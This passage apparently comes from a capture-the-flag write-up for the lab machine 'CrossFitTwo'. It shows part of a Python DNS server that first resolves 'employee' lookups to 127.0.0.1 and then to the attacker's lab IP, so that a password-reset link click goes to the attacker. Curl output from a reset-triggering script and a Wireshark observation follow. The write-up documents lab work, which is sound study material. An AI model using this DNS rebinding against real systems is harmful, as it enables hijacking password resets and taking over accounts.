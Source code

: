 ```py
    def __getattr__(self, item):
        return DomainName(item + '.' + self)

def dns_response(data):
    request = DNSRecord.parse(data)

    print(request)

    reply = DNSRecord(DNSHeader(id=request.header.id, qr=1, aa=1, ra=1), q=request.q)

    qname = request.q.qname
    qn = str(qname)
    qtype = request.q.qtype
    qt = QTYPE[qtype]
    if qn != "":
        D = DomainName(qn)
    IP = '10.10.14.65'
    TTL = 600
    global a
    if "employee" in qn and a > 2:  # HANDLE DOUBLE REQUEST
        IP = '10.10.14.65'
        a += 1
    elif "employee" in qn:
        a += 1
        TTL = 10
        IP = '127.0.0.1'
...[snip]...	
```

Running it again and looking at the curl output there is no error this time and all seems to have went well.

```php
$ sudo ./forward_and_reset.sh
ok
HTTP/1.1 200 OK
...[snip]...
<body>
<div class="alert alert-success alert-dismissible fade show" role="alert">Reset link sent, please check your email.<button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></butt
on></div>
        <div class="limiter">
...[snip]...
```

After about a minute we see another dns request in wireshark which seems to come from the user clicking on the reset link. This request now gets resolved to our ip.

[![wireshark_triple](/img/crossfittwo/wireshark_triple.png)](/img/crossfittwo/wireshark_triple.png)
